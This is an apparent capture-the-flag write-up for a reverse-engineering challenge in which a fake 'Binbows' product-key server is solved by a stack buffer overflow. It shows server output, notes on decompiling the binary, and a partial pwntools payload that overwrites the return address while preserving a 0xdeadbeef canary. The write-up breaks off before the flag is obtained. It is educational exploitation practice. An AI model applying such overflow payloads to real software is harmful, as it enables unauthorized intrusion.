 # Name: michaelsoft_binbows
- Category: rev
- Points: 110 (2 flags)
## Description:
u got da $200 key right
- Flag 1: 50 points
- Flag 2: 60 points
- Access: nc chal.ctf-league.osusec.org 1312
- Download: http://chal.ctf-league.osusec.org/rev/binbows/binbows

## First look at the server
Connecting to the server we get the following output:
```shell
Binbows (TM) Operating System
Copyright (C) Michaelsoft Corp. All your rights are belong to us.

Your copy of Michaelsoft Binbows needs activation!
Please enter your product key (a-z lowercase, 32 characters):
```

inputting anything over 32 bits, breaks the server saying:

```shell
Critical system error! Binbows has detected tampering. Please do not leave the room; your device will explode shortly :)
```

anything under 32 chars or exactly 32 chars, the server does not validate the key and closes

```shell
Validating product key with Michaelsoft servers...
While you wait, here's some fun Michaelsoft facts!
With new Copilot for Business, Michael himself will respond to your questions! Plans start at $2,000,000/month!
Did you know that in Michaelsoft Binbows, pressing ctrl+windows+alt+shift+l opens LinkedIn in your default browser? This way, you can stay up to date with all of the exciting updates to Michaelsoft 365!
Error: Key must be 32 characters long.
Error: Invalid product key >:(. Remember kids, you wouldn't download a car. So why download an operating system?
Please purchase a valid Binbows license to continue.
```

## Looking at the binary

We have a flag free version of the binary, so using a mix of ghidra and binary ninja we can see the assembly language, and the decompilied C code

In this C code there is two points of interest we found that look like they will give us the flags

### POI 1



### POI 2


## Cracking POI 1 - Flag 1

The first POI is a simple function that normally never gets called, but we can call it by overwriting the return address of the main function to the address of the read_flag function

however we need to make sure that the 'canary' is not overwritten.

This value is set in the code and is 0xdeadbeef in hex.

After some experementation the following payload sent with pwntools works and does not force us out of the server, but does not get us the flag

```py
payload = b'a' * offset
payload += p32(0x8049855)
payload += p32(0xDEADBEEF)
payload += p32(0x8049855)
```
